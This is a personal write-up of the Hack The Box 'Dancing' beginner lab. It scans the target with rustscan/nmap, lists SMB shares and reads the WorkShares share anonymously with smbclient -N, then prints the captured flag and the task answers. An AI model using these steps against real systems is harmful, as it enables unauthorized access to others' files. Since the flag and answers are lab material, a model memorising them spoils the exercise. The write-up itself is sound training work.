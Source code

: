 - - - 
created : 30-07-2025 

Tags : #veryeasy
- - - 
# Objective

Learn how to start.
# CONNECT

To attack the target machine, you must be on the same network.  
Connect to the Starting Point VPN using one of the following options.

It may take a minute for HTB to recognize your connection.  
If you don't see an update after 2-3 minutes, refresh the page.

I will use OpenVPN, so i download the config file on HTB, go in the same directory on my PC and execute the following command :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB]
└─$ sudo openvpn starting_point_mdn0x.ovpn 
[sudo] password di mdn0x: 
```

We can start our [Vulnerable Machine](../../../../3%20-%20Tags/Hacking%20Concepts/Vulnerable%20Machine.md).

Now we add the target IP to our /etc/hosts file, so we don't have to remember the [IP address](../../../../3%20-%20Tags/Hacking%20Concepts/IP%20address.md) every time :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Meow]
└─$ sudo nano /etc/hosts
```

We add a line with the given IP and a name .
# Task 1

What does the 3-letter acronym SMB stand for?

```bash
 Server Message Block
```
# Task 2

What port does SMB use to operate at?

```bash
 445
```
# Task 3

What is the service name for port 445 that came up in our Nmap scan?
## Rustscan/Nmap

We can use [Rustscan](../../../../3%20-%20Tags/Hacking%20Tools/Rustscan.md) that will pass the result to [Nmap](../../../../3%20-%20Tags/Hacking%20Tools/Nmap.md) :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ rustscan -a dancing.htb -- -A  

Open 10.129.69.166:135
Open 10.129.69.166:139
Open 10.129.69.166:445
Open 10.129.69.166:5985
Open 10.129.69.166:47001
Open 10.129.69.166:49664
Open 10.129.69.166:49665
Open 10.129.69.166:49666
Open 10.129.69.166:49668
Open 10.129.69.166:49667
Open 10.129.69.166:49669

PORT      STATE SERVICE       REASON          VERSION
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
445/tcp   open  microsoft-ds? syn-ack ttl 127
5985/tcp  open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
47001/tcp open  http          syn-ack ttl 127 Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
49664/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49665/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49666/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49669/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
```

The answer is **microsoft-ds**.
# Task 4

What is the 'flag' or 'switch' that we can use with the smbclient utility to 'list' the available shares on Dancing?

```bash
 -L
```
# Task 5

How many shares are there on Dancing?
## SMBclient

Let's check, we can use [SMBclient](../../../../3%20-%20Tags/Hacking%20Tools/SMBclient.md) to connect :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient -L 10.129.69.166
Password for [WORKGROUP\mdn0x]: (no passwd/enter)

        Sharename       Type      Comment
        ---------       ----      -------
        ADMIN$          Disk      Remote Admin
        C$              Disk      Default share
        IPC$            IPC       Remote IPC
        WorkShares      Disk      
Reconnecting with SMB1 for workgroup listing.
do_connect: Connection to 10.129.69.166 failed (Error NT_STATUS_RESOURCE_NAME_NOT_FOUND)
Unable to connect with SMB1 -- no workgroup available
```
# Task 6

What is the name of the share we are able to access in the end with a blank password?

```bash
 WorkShares
```
# Task 7

What is the command we can use within the SMB shell to download the files we find? `get`

Let's use the `-N` flag to access the directory like this :

```
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ smbclient  //10.129.69.166/WorkShares -N
Try "help" to get a list of possible commands.
smb: \> ls
  .                                   D        0  Mon Mar 29 10:22:01 2021
  ..                                  D        0  Mon Mar 29 10:22:01 2021
  Amy.J                               D        0  Mon Mar 29 11:08:24 2021
  James.P                             D        0  Thu Jun  3 10:38:03 2021

                5114111 blocks of size 4096. 1753002 blocks available
```

Now we can download the files with **get** :

```bash
smb: \> cd James.P
smb: \James.P\> ls
  .                                   D        0  Thu Jun  3 10:38:03 2021
  ..                                  D        0  Thu Jun  3 10:38:03 2021
  flag.txt                            A       32  Mon Mar 29 11:26:57 2021

                5114111 blocks of size 4096. 1752981 blocks available
smb: \James.P\> get flag.txt
getting file \James.P\flag.txt of size 32 as flag.txt (0,0 KiloBytes/sec) (average 0,0 KiloBytes/sec)
```
# Task 8

Submit root flag

Now we exit with `quit` or `ctrl + C` and `cat` the flag :

```bash
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ ls
flag.txt  worknotes.txt
                                      
┌──(mdn0x㉿mdn0xKali)-[~/HTB/Starting Point/Tier 0/Dancing]
└─$ cat flag.txt
5f61c10dffbc77a704d76016a22f1664 
```
